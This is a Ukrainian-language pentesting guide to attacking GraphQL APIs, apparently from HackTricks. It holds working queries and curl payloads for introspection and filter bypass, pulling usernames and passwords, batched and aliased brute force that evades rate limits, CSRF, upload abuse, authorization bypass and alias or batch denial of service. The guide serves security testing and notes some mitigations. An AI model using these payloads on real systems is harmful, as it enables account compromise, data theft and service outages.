

# GraphQL

{{#include ../../banners/hacktricks-training.md}}

## Вступ

GraphQL **позиціонується** як **ефективна альтернатива** REST API, що пропонує спрощений спосіб запитувати дані з backend. На відміну від REST, де для збору даних часто потрібно надсилати численні запити до різних endpoint-ів, GraphQL дає змогу отримати всю потрібну інформацію за допомогою **одного запиту**. Це значно **полегшує роботу розробників**, зменшуючи складність процесів отримання даних.<sup>[[3]](#references)</sup>

## GraphQL і безпека

GraphQL сам по собі не забезпечує автентифікацію чи авторизацію в застосунку; розробники мають реалізувати ці механізми в самому застосунку та логіці resolver-ів. Без них endpoint-и можуть надавати неавтентифікованим або неавторизованим користувачам доступ до конфіденційної інформації чи операцій.<sup>[[1]](#references)[[6]](#references)</sup>

### Атаки перебором директорій і GraphQL

Під час пошуку відкритих GraphQL endpoint-ів додайте поширені шляхи до сканувань для виявлення вмісту. У практичних посібниках із тестування GraphQL використовують, зокрема, такі шляхи та перевірки:<sup>[[4]](#references)[[5]](#references)</sup>

- `/graphql`
- `/graphiql`
- `/graphql.php`
- `/graphql/console`
- `/api`
- `/api/graphql`
- `/graphql/api`
- `/graphql/graphql`

Виявлення відкритих екземплярів GraphQL дає змогу перевірити підтримувані запити. Це важливо для розуміння того, які дані доступні через endpoint. Цьому сприяє система introspection у GraphQL, яка описує запити, підтримувані схемою. Докладніше про це див. у документації GraphQL щодо introspection: [**GraphQL: мова запитів для API.**](https://graphql.org/learn/introspection/)<sup>[[20]](#references)</sup>

### Fingerprint

Інструмент [**graphw00f**](https://github.com/dolevf/graphw00f) може визначити, який GraphQL-рушій використовує сервер, і вивести інформацію, корисну для аудитора безпеки.

#### Універсальні запити <a href="#universal-queries" id="universal-queries"></a>

Щоб перевірити, чи є URL GraphQL-сервісом, можна надіслати **універсальний запит** `query{__typename}`. Якщо відповідь містить `{"data": {"__typename": "Query"}}`, це підтверджує, що за URL розміщено GraphQL endpoint. Цей метод використовує поле GraphQL `__typename`, яке вказує тип об’єкта, до якого надіслано запит.

```javascript
query{__typename}
```

### Базова розвідка

Сервери GraphQL-over-HTTP мають підтримувати `POST` і можуть підтримувати `GET`; мутації не можна виконувати через `GET`. Сумісні сервери підтримують тіла запитів у форматі JSON, а деякі реалізації додатково приймають форми або інші прості типи вмісту. Для операцій, що змінюють стан, вимагайте `POST` із відповідним типом вмісту JSON і застосовуйте стандартний захист від CSRF; відхилення простих типів вмісту може усунути один поширений шлях CSRF, але не забезпечує повного захисту від CSRF.<sup>[[21]](#references)</sup>

#### Інтроспекція

Щоб за допомогою інтроспекції виявити інформацію про схему, запитайте поле `__schema`. Це поле доступне в кореневому типі всіх запитів.

```bash
query={__schema{types{name,fields{name}}}}
```

.png>)

```bash
query={__schema{types{name,fields{name,args{name,description,type{name,kind,ofType{name, kind}}}}}}}
```

За допомогою цього запиту можна отримати всі типи, їхні поля та аргументи (зокрема типи аргументів). Це корисно, щоб дізнатися, як надсилати запити до API.

.png>)

**Помилки**

Перевірте, чи повертаються детальні **помилки**, оскільки вони можуть розкрити корисну інформацію про схему та реалізацію.

```
?query={__schema}
?query={}
?query={thisdefinitelydoesnotexist}
```

.png>)

**Перелічення схеми бази даних за допомогою інтроспекції**

> [!TIP]
> Якщо інтроспекцію ввімкнено, але наведений вище запит не виконується, спробуйте видалити директиви `onOperation`, `onFragment` і `onField` зі структури запиту.

```bash
  #Full introspection query

query IntrospectionQuery {
    __schema {
        queryType {
            name
        }
        mutationType {
            name
        }
        subscriptionType {
            name
        }
        types {
         ...FullType
        }
        directives {
            name
            description
            args {
                ...InputValue
        }
        onOperation  #Often needs to be deleted to run query
        onFragment   #Often needs to be deleted to run query
        onField      #Often needs to be deleted to run query
        }
    }
}

fragment FullType on __Type {
    kind
    name
    description
    fields(includeDeprecated: true) {
        name
        description
        args {
            ...InputValue
        }
        type {
            ...TypeRef
        }
        isDeprecated
        deprecationReason
    }
    inputFields {
        ...InputValue
    }
    interfaces {
        ...TypeRef
    }
    enumValues(includeDeprecated: true) {
        name
        description
        isDeprecated
        deprecationReason
    }
    possibleTypes {
        ...TypeRef
    }
}

fragment InputValue on __InputValue {
    name
    description
    type {
        ...TypeRef
    }
    defaultValue
}

fragment TypeRef on __Type {
    kind
    name
    ofType {
        kind
        name
        ofType {
            kind
            name
            ofType {
                kind
                name
            }
        }
    }
}
```

Вбудований запит інтроспекції:

```
/?query=fragment%20FullType%20on%20Type%20{+%20%20kind+%20%20name+%20%20description+%20%20fields%20{+%20%20%20%20name+%20%20%20%20description+%20%20%20%20args%20{+%20%20%20%20%20%20...InputValue+%20%20%20%20}+%20%20%20%20type%20{+%20%20%20%20%20%20...TypeRef+%20%20%20%20}+%20%20}+%20%20inputFields%20{+%20%20%20%20...InputValue+%20%20}+%20%20interfaces%20{+%20%20%20%20...TypeRef+%20%20}+%20%20enumValues%20{+%20%20%20%20name+%20%20%20%20description+%20%20}+%20%20possibleTypes%20{+%20%20%20%20...TypeRef+%20%20}+}++fragment%20InputValue%20on%20InputValue%20{+%20%20name+%20%20description+%20%20type%20{+%20%20%20%20...TypeRef+%20%20}+%20%20defaultValue+}++fragment%20TypeRef%20on%20Type%20{+%20%20kind+%20%20name+%20%20ofType%20{+%20%20%20%20kind+%20%20%20%20name+%20%20%20%20ofType%20{+%20%20%20%20%20%20kind+%20%20%20%20%20%20name+%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20%20%20%20%20%20%20}+%20%20%20%20%20%20%20%20%20%20%20%20}+%20%20%20%20%20%20%20%20%20%20}+%20%20%20%20%20%20%20%20}+%20%20%20%20%20%20}+%20%20%20%20}+%20%20}+}++query%20IntrospectionQuery%20{+%20%20schema%20{+%20%20%20%20queryType%20{+%20%20%20%20%20%20name+%20%20%20%20}+%20%20%20%20mutationType%20{+%20%20%20%20%20%20name+%20%20%20%20}+%20%20%20%20types%20{+%20%20%20%20%20%20...FullType+%20%20%20%20}+%20%20%20%20directives%20{+%20%20%20%20%20%20name+%20%20%20%20%20%20description+%20%20%20%20%20%20locations+%20%20%20%20%20%20args%20{+%20%20%20%20%20%20%20%20...InputValue+%20%20%20%20%20%20}+%20%20%20%20}+%20%20}+}
```

Попередній запит GraphQL вивантажує метадані схеми, як-от назви об’єктів, параметри й типи.

.png>)

Якщо інтроспекцію ввімкнено, можна скористатися [**GraphQL Voyager**](https://github.com/APIs-guru/graphql-voyager), щоб переглянути всі доступні параметри в графічному інтерфейсі.<sup>[[2]](#references)</sup>

### Запити

Тепер, коли ми знаємо, яка інформація зберігається в базі даних, спробуймо **витягти деякі значення**.

Під час інтроспекції можна дізнатися, до якого об’єкта можна звертатися безпосередньо (не можна робити запит до об’єкта лише тому, що він існує). На зображенні нижче видно, що "_queryType_" має назву "_Query_", а одним із полів об’єкта "_Query_" є "_flags_", яке також є типом об’єкта. Отже, можна робити запити до об’єкта прапорців.


Зверніть увагу, що тип запиту "_flags_" — "_Flags_", а цей об’єкт визначено так:

.png>)

Об’єкти `_Flags_` містять поля **name** і **value**, тож можна запросити всі назви й значення прапорців за допомогою:

```javascript
query={flags{name, value}}
```

Якщо **об’єкт, який потрібно запитати**, має примітивний тип, наприклад рядок, як у наведеному нижче прикладі:

.png>)

Його можна запитати безпосередньо так:

```javascript
query = { hiddenFlags }
```

В іншому прикладі в об'єкті типу "_Query_" було 2 об'єкти: "_user_" і "_users_".\
Якщо для пошуку цих об'єктів не потрібні аргументи, можна **отримати всю інформацію з них**, просто **запросивши** потрібні дані. У цьому прикладі з Інтернету можна було отримати збережені імена користувачів і паролі:

.png>)

Однак у цьому прикладі спроба зробити це призводить до цієї **помилки**:

.png>)

Схоже, пошук виконується за аргументом "_**uid**_" типу _**Int**_.\
У розділі [Базове перерахування](graphql.md#basic-enumeration) уже пропонувався запит, який повертає потрібну інформацію: `query={__schema{types{name,fields{name, args{name,description,type{name, kind, ofType{name, kind}}}}}}}`

Якщо переглянути зображення, отримане під час виконання цього запиту, можна побачити, що у "_**user**_" був **arg** "_**uid**_" типу _Int_.

У цьому прикладі легкий brute force для _**uid**_ показує, що _**uid**=**1**_ повертає ім'я користувача й пароль:\
`query={user(uid:1){user,password}}`

.png>)

Зауважте, що я **виявив**, що можна запитувати **параметри** "_**user**_" і "_**password**_", оскільки якщо спробувати знайти те, чого не існує (`query={user(uid:1){noExists}}`), з'явиться така помилка:

.png>)

А під час **фази перерахування** я виявив, що об'єкт "_**dbuser**_" має поля "_**user**_" і "_**password**_.

**Query string dump trick (дякую @BinaryShadow\_)**

Якщо можна виконувати пошук за рядком, наприклад: `query={theusers(description: ""){username,password}}`, і **шукати порожній рядок**, це **виведе всі дані**. (_Зауважте, що цей приклад не пов'язаний із прикладами з посібників; у цьому прикладі припустімо, що можна шукати за допомогою "**theusers**" за рядковим полем під назвою "**description**"_).

### Пошук

У прикладах у розділах пошуку й мутацій використовується **база даних**, що містить **людей** і **фільми**. **Люди** ідентифікуються за **електронною адресою** та **ім'ям**, а **фільми** — за **назвою** та **рейтингом**. **Люди** можуть бути друзями одне з одним і можуть мати фільми, що представляє зв'язки в базі даних.

Можна **шукати** людей **за** **іменем** і отримувати їхні адреси електронної пошти:

```javascript
{
  searchPerson(name: "John Doe") {
    email
  }
}
```

Можна **шукати** людей **за** **іменем** і отримувати їхні **підписані** **фільми**:

```javascript
{
  searchPerson(name: "John Doe") {
    email
    subscribedMovies {
      edges {
        node {
          name
        }
      }
    }
  }
}
```

Зверніть увагу, як тут зазначено отримання `name` для `subscribedMovies` цієї особи.

Також можна **шукати кілька об’єктів одночасно**. У цьому випадку виконується пошук 2 фільмів:

```javascript
{
  searchPerson(subscribedMovies: [{name: "Inception"}, {name: "Rocky"}]) {
    name
  }
}r
```

Або навіть **зв’язки між кількома різними об’єктами за допомогою псевдонімів**:

```javascript
{
  johnsMovieList: searchPerson(name: "John Doe") {
    subscribedMovies {
      edges {
        node {
          name
        }
      }
    }
  }
  davidsMovieList: searchPerson(name: "David Smith") {
    subscribedMovies {
      edges {
        node {
          name
        }
      }
    }
  }
}
```

### Мутації

**Мутації використовуються для внесення змін на сервері.**

В **інтроспекції** можна знайти **оголошені** **мутації**. На зображенні нижче "_MutationType_" називається "_Mutation_", а об’єкт "_Mutation_" містить назви мутацій (наприклад, "_addPerson_"):

.png>)

Використовуючи ту саму схему людей і фільмів, мутація для **створення нового фільму** в базі даних може виглядати так, як у наведеному нижче прикладі (мутація називається `addMovie`):

```javascript
mutation {
  addMovie(name: "Jumanji: The Next Level", rating: "6.8/10", releaseYear: 2019) {
    movies {
      name
      rating
    }
  }
}
```

**Зверніть увагу, що в запиті вказано і значення, і тип даних.**

Крім того, база даних підтримує операцію **mutation** під назвою `addPerson`, яка дає змогу створювати **persons** і пов’язувати їх з наявними **friends** та **movies**. Важливо, що friends і movies мають уже існувати в базі даних, перш ніж їх можна буде пов’язати зі щойно створеною особою.

```javascript
mutation {
  addPerson(name: "James Yoe", email: "jy@example.com", friends: [{name: "John Doe"}, {email: "jd@example.com"}], subscribedMovies: [{name: "Rocky"}, {name: "Interstellar"}, {name: "Harry Potter and the Sorcerer's Stone"}]) {
    person {
      name
      email
      friends {
        edges {
          node {
            name
            email
          }
        }
      }
      subscribedMovies {
        edges {
          node {
            name
            rating
            releaseYear
          }
        }
      }
    }
  }
}
```

### Directive Overloading

Як пояснюється [**в одній із вразливостей, описаних у цьому звіті**](https://www.landh.tech/blog/20240304-google-hack-50000/), перевантаження директиви означає виклик директиви навіть мільйони разів, щоб сервер витрачав ресурси на обробку запитів, доки його не вдасться DoS-нути.<sup>[[13]](#references)</sup>

### Batching brute-force в 1 API-запиті

Цю інформацію взято з [https://lab.wallarm.com/graphql-batching-attack/](https://lab.wallarm.com/graphql-batching-attack/).<sup>[[14]](#references)</sup>\
Автентифікація через GraphQL API шляхом **одночасного надсилання багатьох запитів із різними обліковими даними** для перевірки. Це класична brute force-атака, але тепер завдяки функції batching у GraphQL можна надсилати більше ніж одну пару логіна й пароля в одному HTTP-запиті. Такий підхід може змусити зовнішні застосунки моніторингу частоти запитів вважати, що все гаразд і бот не намагається підбирати паролі.

Нижче наведено найпростіший приклад запиту автентифікації застосунку, що містить **3 різні пари адрес електронної пошти й паролів одночасно**. Очевидно, у такий самий спосіб можна надіслати тисячі пар в одному запиті:

.png>)

Як видно зі знімка екрана з відповіддю, перший і третій запити повернули _null_, а відповідна інформація відобразилася в секції _error_. **Друга mutation містила правильні дані автентифікації**, і відповідь містила правильний токен сеансу автентифікації.

 (1).png>)

## GraphQL без Introspection

Усе більше **кінцевих точок graphql вимикають introspection**. Однак помилок, які graphql повертає у відповідь на несподіваний запит, достатньо для таких інструментів, як [**clairvoyance**](https://github.com/nikitastupin/clairvoyance), щоб відтворити більшу частину схеми.

Крім того, розширення Burp Suite [**GraphQuail**](https://github.com/forcesunseen/graphquail) **відстежує запити GraphQL API, що проходять через Burp**, і **створює** внутрішню **схему** GraphQL на основі кожного нового запиту. Воно також може надати схему для GraphiQL і Voyager. Коли розширення отримує запит introspection, воно повертає фальшиву відповідь. У результаті GraphQuail показує всі запити, аргументи й поля, доступні для використання в API. Щоб дізнатися більше, [**перегляньте це**](https://blog.forcesunseen.com/graphql-security-testing-without-a-schema).<sup>[[15]](#references)</sup>

Зручний **wordlist** для виявлення [**сутностей GraphQL можна знайти тут**](https://github.com/Escape-Technologies/graphql-wordlist?).

### Обхід захисту GraphQL introspection <a href="#bypassing-graphql-introspection-defences" id="bypassing-graphql-introspection-defences"></a>

Щоб обійти обмеження на запити introspection в API, ефективно вставити **спеціальний символ після ключового слова `__schema`**. Цей метод використовує поширені недогляди розробників у регулярних виразах, призначених для блокування introspection, які шукають ключове слово `__schema`. Додаючи символи на кшталт **пробілів, символів нового рядка й ком**, які GraphQL ігнорує, але регулярний вираз може не враховувати, можна обійти обмеження. Наприклад, запит introspection із символом нового рядка після `__schema` може обійти такий захист:

```bash
# Example with newline to bypass
{
    "query": "query{__schema
    {queryType{name}}}"
}
```

Якщо не вдалося, спробуйте альтернативні методи запитів, як-от **GET-запити** або **POST із `x-www-form-urlencoded`**, оскільки обмеження можуть стосуватися лише POST-запитів.

### Спробуйте WebSockets

Як згадувалося [**в цій доповіді**](https://www.youtube.com/watch?v=tIo_t5uUK50), перевірте, чи можна підключитися до graphQL через WebSockets, оскільки це може допомогти обійти потенційний WAF і змусити обмін даними через websocket здійснити leak схеми graphQL:<sup>[[16]](#references)</sup>

```javascript
ws = new WebSocket("wss://target/graphql", "graphql-ws")
ws.onopen = function start(event) {
  var GQL_CALL = {
    extensions: {},
    query: `
        {
            __schema {
                _types {
                    name
                }
            }
        }`,
  }

  var graphqlMsg = {
    type: "GQL.START",
    id: "1",
    payload: GQL_CALL,
  }
  ws.send(JSON.stringify(graphqlMsg))
}
```

### **Виявлення відкритих структур GraphQL**

Якщо introspection вимкнено, корисною стратегією буде пошук попередньо завантажених запитів у JavaScript-бібліотеках у вихідному коді вебсайту. Ці запити можна знайти на вкладці `Sources` в інструментах розробника. Вони дають змогу отримати уявлення про схему API та виявити потенційно **відкриті конфіденційні запити**. Команди для пошуку в інструментах розробника:

```javascript
Inspect/Sources/"Search all files"
file:* mutation
file:* query
```

### Відновлення схеми на основі помилок і fingerprinting рушія (InQL v6.1+)

Якщо introspection заблоковано, **InQL v6.1+** тепер може відновлювати доступну схему виключно на основі зворотного зв’язку з помилок. Новий *schema bruteforcer* пакетно обробляє кандидатні назви полів/аргументів зі списку слів, який можна налаштувати, і надсилає їх у multi-field операціях, щоб зменшити кількість HTTP-запитів. Корисні шаблони помилок автоматично збираються:<sup>[[9]](#references)</sup>

- `Field 'bugs' not found on type 'inql'` підтверджує існування батьківського типу, відкидаючи недійсні назви полів.
- `Argument 'contribution' is required` показує, що аргумент є обов’язковим, і розкриває його написання.
- Підказки з пропозиціями, як-от `Did you mean 'openPR'?`, додаються до черги як перевірені кандидати.
- Навмисно надсилаючи значення неправильного примітивного типу (наприклад, цілі числа замість рядків), bruteforcer провокує помилки невідповідності типів, які розкривають справжню сигнатуру типу, зокрема обгортки списків/об’єктів на кшталт `[Episode!]`.

Bruteforcer продовжує рекурсивно обходити будь-який тип, для якого знаходить нові поля, тож список слів, що поєднує загальні назви GraphQL із припущеннями, специфічними для застосунку, зрештою дасть змогу зіставити значні частини схеми без introspection. Час виконання здебільшого обмежений rate limiting і кількістю кандидатів, тому ретельне налаштування параметрів InQL (список слів, розмір пакета, throttling, повторні спроби) критично важливе для більш непомітних операцій.

У тому самому випуску InQL додає **fingerprinter рушія GraphQL** (запозичуючи сигнатури з таких інструментів, як `graphw00f`). Модуль надсилає навмисно недійсні директиви/запити й визначає backend, зіставляючи точний текст помилки. Наприклад:<sup>[[9]](#references)</sup>

```graphql
query @deprecated {
    __typename
}
```

- Apollo відповідає `Directive "@deprecated" may not be used on QUERY.`
- GraphQL Ruby відповідає `'@deprecated' can't be applied to queries`.

Щойно рушій розпізнано, InQL показує відповідний запис із [GraphQL Threat Matrix](https://github.com/nicholasaleks/graphql-threat-matrix), допомагаючи тестувальникам визначати пріоритетність слабких місць, властивих цій родині серверів (типова поведінка introspection, обмеження глибини, прогалини в CSRF-захисті, завантаження файлів тощо).<sup>[[9]](#references)[[10]](#references)</sup>

Нарешті, **автоматична генерація змінних** усуває типову перешкоду під час переходу до Burp Repeater/Intruder. Якщо для операції потрібен JSON зі змінними, InQL тепер підставляє відповідні значення за замовчуванням, щоб запит пройшов валідацію схеми з першої спроби:<sup>[[9]](#references)</sup>

```text
"String"  -> "exampleString"
"Int"     -> 42
"Float"   -> 3.14
"Boolean" -> true
"ID"      -> "123"
ENUM      -> first declared value
```

Вкладені об’єкти input успадковують те саме зіставлення, тож одразу отримуєте синтаксично й семантично коректний payload, який можна fuzz-ити на SQLi/NoSQLi/SSRF/обходи логіки без ручного реверс-інжинірингу кожного аргументу.

## CSRF у GraphQL

Якщо ви не знаєте, що таке CSRF, прочитайте цю сторінку:

{{#ref}}
../../pentesting-web/csrf-cross-site-request-forgery.md
{{#endref}}

Там ви зможете знайти кілька GraphQL endpoint-ів, **налаштованих без CSRF-токенів.**

Зверніть увагу, що GraphQL-запити зазвичай надсилаються через POST-запити з Content-Type **`application/json`**.

```javascript
{"operationName":null,"variables":{},"query":"{\n  user {\n    firstName\n    __typename\n  }\n}\n"}
```

Однак більшість GraphQL-ендпоінтів також підтримують **POST-запити у форматі `form-urlencoded`:**

```javascript
query=%7B%0A++user+%7B%0A++++firstName%0A++++__typename%0A++%7D%0A%7D%0A
```

Тому, оскільки CSRF-запити, як і попередні, надсилаються **без preflight-запитів**, можна **вносити** **зміни** в GraphQL, використовуючи CSRF.

Файли cookie без явно заданого атрибута `SameSite` зазвичай вважаються такими, що мають `SameSite=Lax`. Такі файли cookie можуть надсилатися з міжсайтовим запитом лише тоді, коли це навігація верхнього рівня з безпечним методом (найчастіше `GET`), тому вони не надсилаються зі звичайними міжсайтовими запитами до підресурсів.<sup>[[22]](#references)</sup>

Деякі сервери GraphQL також приймають **query-запит як GET-запит**, і реалізація може не перевіряти CSRF-токен у цьому випадку.

Також може бути можливо викрасти вміст із кінцевої точки GraphQL, використовуючи облікові дані користувача та [**XS-Search**](../../pentesting-web/xs-search/index.html) **attack**.

Щоб дізнатися більше, **перегляньте** [**оригінальну публікацію тут**](https://blog.doyensec.com/2021/05/20/graphql-csrf.html).<sup>[[17]](#references)</sup>

### Зловживання multipart-завантаженням (scalar `Upload`)

Багато стеків GraphQL реалізують **специфікацію GraphQL multipart request**, щоб підтримувати scalars `Upload`.<sup>[[11]](#references)</sup> З погляду атакувальника, побачивши `scalar Upload`, `multipart/form-data` або mutations на кшталт `uploadAvatar`, `createMediaItem` чи `import*`, варто перевірити не лише базову валідацію файлів:

- **CSRF через multipart**: `multipart/form-data` — це **простий запит**, тож браузери можуть надсилати mutations для завантаження файлів із різних origin **без preflight**. Це особливо актуально, якщо застосунок заявляє, що в інших випадках приймає лише JSON.
- **Повторне використання змінної завантаження**: GraphQL дозволяє посилатися на ту саму змінну кілька разів. Якщо бекенд не обмежує використання змінних завантаження одним разом, повторне використання одного файлового потоку в кількох аргументах resolver може призвести до подвійного читання, передчасного вичерпання потоку або навантаження на буферизацію чи пам’ять сервера.
- **Невикористані частини / зайві файли**: деякі multipart-парсери буферизують усі отримані файли, перш ніж перевірити, чи є на них посилання в полі `map`. Тому надсилання великих невикористаних частин — хороший спосіб перевірити, чи можна вичерпати ресурси диска/RAM.

Швидка перевірка **повторного використання змінної**:

```bash
curl -X POST https://target/graphql \
  -F 'operations={"query":"mutation($f: Upload!){a:uploadAvatar(file:$f){id} b:uploadAvatar(file:$f){id}}","variables":{"f":null}}' \
  -F 'map={"0":["variables.f"]}' \
  -F '0=@/tmp/poc.bin'
```

Також спробуйте некоректні об’єкти `map` із **додатковими частинами файлів** (наприклад, із другою частиною, на яку ніде немає посилань) і стежте за відмінностями у часі відповіді, збільшенням розміру тимчасових файлів або помилками reverse proxy.

## Cross-site WebSocket hijacking у GraphQL

Подібно до вразливостей CRSF, що зловживають GraphQL, також можна виконати **Cross-site WebSocket hijacking, щоб зловживати автентифікацією GraphQL за допомогою незахищених cookie**, і змусити користувача виконувати неочікувані дії в GraphQL.

Докладніше:

{{#ref}}
../../pentesting-web/websocket-attacks.md
{{#endref}}

## Авторизація в GraphQL

Багато функцій GraphQL, визначених на endpoint, можуть перевіряти лише автентифікацію запитувача, але не авторизацію.

Зміна вхідних змінних запиту може призвести до [витоку](https://hackerone.com/reports/792927) конфіденційних даних облікового запису.<sup>[[19]](#references)</sup>

Mutation може навіть призвести до захоплення облікового запису, якщо спробувати змінити дані іншого облікового запису.

```javascript
{
  "operationName":"updateProfile",
  "variables":{"username":INJECT,"data":INJECT},
  "query":"mutation updateProfile($username: String!,...){updateProfile(username: $username,...){...}}"
}
```

### Обхід авторизації в GraphQL

[Об’єднання запитів](https://s1n1st3r.gitbook.io/theb10g/graphql-query-authentication-bypass-vuln) може допомогти обійти слабку систему автентифікації.<sup>[[18]](#references)</sup>

У прикладі нижче видно, що операція — це "forgotPassword", і вона має виконувати лише пов’язаний із нею запит forgotPassword. Це можна обійти, додавши в кінець ще один запит. У цьому випадку ми додаємо "register" і змінну користувача, щоб зареєструвати в системі нового користувача.

<figure><figcaption></figcaption></figure>

## Збережені запити / APQ — це **не** межа безпеки

Поширене припущення blue team: **Automatic Persisted Queries (APQ)** не дають довільним GraphQL-запитам дійти до сервера, оскільки клієнти зазвичай надсилають лише SHA-256-хеш. На практиці APQ переважно слугує **для оптимізації пропускної здатності та затримки**, а не є списком дозволених запитів:<sup>[[12]](#references)</sup>

1. надішліть лише хеш і `extensions.persistedQuery`
2. якщо сервер відповідає `PersistedQueryNotFound`, повторно надішліть той самий запит **із повним рядком `query`**
3. багато розгортань у стилі Apollo виконають його та збережуть цю операцію в кеші для наступних запитів

Це означає, що якщо ціль лише ввімкнула APQ, ви часто все ще можете надіслати **нові introspection-запити, aliases, глибоко вкладені fragments або brute-force mutations** уже в першому запиті. Для справжнього списку дозволених запитів зазвичай потрібен **попередньо зареєстрований список збережених запитів**, а також відхилення рядків операцій у відкритому вигляді.

```json
{
  "operationName": "probe",
  "variables": null,
  "extensions": {
    "persistedQuery": {
      "version": 1,
      "sha256Hash": "<unknown-hash>"
    }
  }
}
```

Якщо відповідь містить `PersistedQueryNotFound`, негайно повторіть запит, додавши повне поле `query`. Також зауважте, що деякі клієнти використовують **GET** для APQ-запитів лише з hash і переходять до повного запиту, тільки якщо hash не знайдено. Тому правила WAF або кешування, налаштовані для запитів лише з hash, можуть пропустити небезпечний запит.

## Обхід обмежень частоти за допомогою Aliases у GraphQL

У GraphQL aliases — це потужна функція, що дає змогу **явно задавати назви властивостей** під час надсилання API-запиту. Це особливо корисно для отримання **кількох екземплярів об’єкта одного типу** в межах одного запиту. Aliases дають змогу обійти обмеження, яке забороняє об’єктам GraphQL мати кілька властивостей з однаковою назвою.

Щоб докладніше ознайомитися з aliases у GraphQL, рекомендуємо такий ресурс: [Aliases](https://portswigger.net/web-security/graphql/what-is-graphql#aliases).

Основне призначення aliases — зменшити потребу в численних API-викликах. Однак виявлено й неочікуваний сценарій використання: aliases можна застосувати для brute force атак на кінцеву точку GraphQL. Це можливо, оскільки деякі кінцеві точки захищені обмежувачами частоти запитів, призначеними для протидії brute force атакам шляхом обмеження **кількості HTTP-запитів**. Проте ці обмежувачі можуть не враховувати кількість операцій у кожному запиті. Оскільки aliases дають змогу включати кілька запитів в один HTTP-запит, ними можна обійти такі обмеження частоти.

У прикладі нижче показано, як aliased queries можна використовувати для перевірки дійсності кодів знижок магазину. Такий метод може обійти обмеження частоти, оскільки об’єднує кілька запитів в один HTTP-запит, що потенційно дає змогу одночасно перевірити численні коди знижок.

```bash
# Example of a request utilizing aliased queries to check for valid discount codes
query isValidDiscount($code: Int) {
    isvalidDiscount(code:$code){
        valid
    }
    isValidDiscount2:isValidDiscount(code:$code){
        valid
    }
    isValidDiscount3:isValidDiscount(code:$code){
        valid
    }
}
```

## DoS in GraphQL

### Alias Overloading

**Alias Overloading** — це вразливість GraphQL, за якої зловмисники перевантажують запит багатьма alias для одного й того самого поля, змушуючи backend resolver виконувати це поле багаторазово. Це може перевантажити ресурси сервера та призвести до **Denial of Service (DoS)**. Наприклад, у наведеному нижче запиті те саме поле (`expensiveField`) запитується 1 000 разів за допомогою alias, змушуючи backend обчислювати його 1 000 разів і потенційно вичерпуючи ресурси CPU або пам’яті:

```graphql
# Test provided by https://github.com/dolevf/graphql-cop
curl -X POST -H "Content-Type: application/json" \
    -d '{"query": "{ alias0:__typename \nalias1:__typename \nalias2:__typename \nalias3:__typename \nalias4:__typename \nalias5:__typename \nalias6:__typename \nalias7:__typename \nalias8:__typename \nalias9:__typename \nalias10:__typename \nalias11:__typename \nalias12:__typename \nalias13:__typename \nalias14:__typename \nalias15:__typename \nalias16:__typename \nalias17:__typename \nalias18:__typename \nalias19:__typename \nalias20:__typename \nalias21:__typename \nalias22:__typename \nalias23:__typename \nalias24:__typename \nalias25:__typename \nalias26:__typename \nalias27:__typename \nalias28:__typename \nalias29:__typename \nalias30:__typename \nalias31:__typename \nalias32:__typename \nalias33:__typename \nalias34:__typename \nalias35:__typename \nalias36:__typename \nalias37:__typename \nalias38:__typename \nalias39:__typename \nalias40:__typename \nalias41:__typename \nalias42:__typename \nalias43:__typename \nalias44:__typename \nalias45:__typename \nalias46:__typename \nalias47:__typename \nalias48:__typename \nalias49:__typename \nalias50:__typename \nalias51:__typename \nalias52:__typename \nalias53:__typename \nalias54:__typename \nalias55:__typename \nalias56:__typename \nalias57:__typename \nalias58:__typename \nalias59:__typename \nalias60:__typename \nalias61:__typename \nalias62:__typename \nalias63:__typename \nalias64:__typename \nalias65:__typename \nalias66:__typename \nalias67:__typename \nalias68:__typename \nalias69:__typename \nalias70:__typename \nalias71:__typename \nalias72:__typename \nalias73:__typename \nalias74:__typename \nalias75:__typename \nalias76:__typename \nalias77:__typename \nalias78:__typename \nalias79:__typename \nalias80:__typename \nalias81:__typename \nalias82:__typename \nalias83:__typename \nalias84:__typename \nalias85:__typename \nalias86:__typename \nalias87:__typename \nalias88:__typename \nalias89:__typename \nalias90:__typename \nalias91:__typename \nalias92:__typename \nalias93:__typename \nalias94:__typename \nalias95:__typename \nalias96:__typename \nalias97:__typename \nalias98:__typename \nalias99:__typename \nalias100:__typename \n }"}' \
    'https://example.com/graphql'
```

Щоб пом’якшити цю проблему, установіть обмеження на кількість alias, аналізуйте складність запитів або застосуйте rate limiting, щоб запобігти зловживанню ресурсами.

### **Array-based Query Batching**

**Array-based Query Batching** — це вразливість, за якої GraphQL API дозволяє надсилати кілька запитів в одному запиті, що дає змогу зловмиснику одночасно надсилати велику кількість запитів. Це може перевантажити бекенд, оскільки всі пакетні запити виконуються паралельно, споживаючи надмірну кількість ресурсів (CPU, пам’яті, підключень до бази даних) і потенційно спричиняючи **Denial of Service (DoS)**. Якщо кількість запитів у пакеті не обмежена, зловмисник може скористатися цим, щоб погіршити доступність сервісу.

```graphql
# Test provided by https://github.com/dolevf/graphql-cop
curl -X POST -H "User-Agent: graphql-cop/1.13" \
-H "Content-Type: application/json" \
-d '[{"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}]' \
'https://example.com/graphql'
```

У цьому прикладі 10 різних запитів об’єднано в один, змушуючи сервер виконувати їх усі одночасно. Якщо використати більший розмір пакета або обчислювально складні запити, це може перевантажити сервер.

### **Directive Overloading Vulnerability**

